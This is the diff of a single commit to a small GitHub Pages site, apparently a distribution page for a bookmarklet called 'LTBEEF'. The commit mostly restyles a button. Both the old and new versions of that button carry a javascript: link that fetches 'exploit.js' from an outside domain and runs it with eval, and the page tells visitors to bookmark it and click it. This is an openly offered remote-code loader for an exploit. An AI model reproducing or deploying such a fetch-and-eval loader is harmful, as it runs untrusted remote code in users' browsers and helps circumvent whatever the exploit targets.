

Before and after one commit to CompactCow/CompactCow.github.io, a plain HTML site: page ltbeef/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/ltbeef/index.html
+++ b/ltbeef/index.html
@@ -1,2 +1,4 @@
-<a href='javascript:fetch("https://compactcow.com/ltbeef/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});' style='text-decoration: none; border-radius: 8px; padding: 20px; display: inline-block; background-color: #04AA6D; color: white; margin: 4px 2px; font-size: 16px; text-align: center;'>LTBEEF</a>
+<br><br>
+<a href='javascript:fetch("https://compactcow.com/ltbeef/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});' style='text-decoration: none; font-family: Arial, Helvetica, sans-serif; border-radius: 8px; padding: 20px; display: inline-block; background-color: #04AA6D; color: white; margin: 4px 2px; font-size: 20px; text-align: center;'>LTBEEF</a>
+<br><br>
 <p>Drag the above button to your bookmark bar and click the bookmarlet twice</p>
```
